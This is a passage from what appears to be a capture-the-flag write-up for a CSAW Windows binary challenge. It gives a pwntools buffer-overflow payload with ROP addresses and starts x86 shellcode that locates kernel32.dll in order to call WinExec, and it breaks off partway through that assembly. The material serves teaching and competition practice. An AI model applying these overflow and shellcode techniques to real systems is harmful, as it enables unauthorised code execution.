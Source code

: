 and `BeKindtoYourCSAWInfraTeam`:

```c

void BeKindToYourCSAWInfraTeam(void)
{
    code **ppcVar1;
    code *pcVar2;
    
    (*_Sleep)(120000);
    (*_ExitProcess)(0);
    /*
        omitted, irrelevant code
    */
}
```

Since there is no randomization, we can jump to these functions directly.

Basically, the start of our pwntools script will look like:

```py
payload = b"A" * 508        # Buffer
payload += p32(0x62101627)  # sleep function
payload += p32(0x62101621)  # shellcode gadget
```

So the idea is that we overflow the buffer and other garbage on the stack, then put on a ROP addresses to the sleep function and our shellcode gadget, which will just return back to the stack.

## Plagiarism is *Still* Easier <a name="Plagiarism"></a>
With my previous shellcode writing, it's usually easier to find someone else who did what you are trying to do and modify it. Googling Windows shellcode brings you to [this writeup](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html).

They go through explaining the call structure and the architecture of Windows system calls and APIs. It's a good read. They wrote shellcode and directly executed it in C. I'm going to go through and explain how I modified it to work in our challenge. If you want further explanation on how the kernel32.dll is found, and how we find the WinExec function, **read that writeup**!

## Finding `kernel32.dll` <a name="Kernel"></a>

So apparently, with most security features off you can just *find* `kernel32.dll` without much hassle. Since we need to ROP, it's probably a good idea to follow calling conventions (saving registers, allocating stack), to avoid segfaulting and put our next return address in the right place.

We first start with some standard stack allocation/calling convention:

```asm
push eax ; Save all registers
push ebx
push ecx
push edx
push esi
push edi
push ebp


push ebp ; Establish a new stack frame
mov ebp, esp

sub esp, 18h ; alloc mem on stack
```
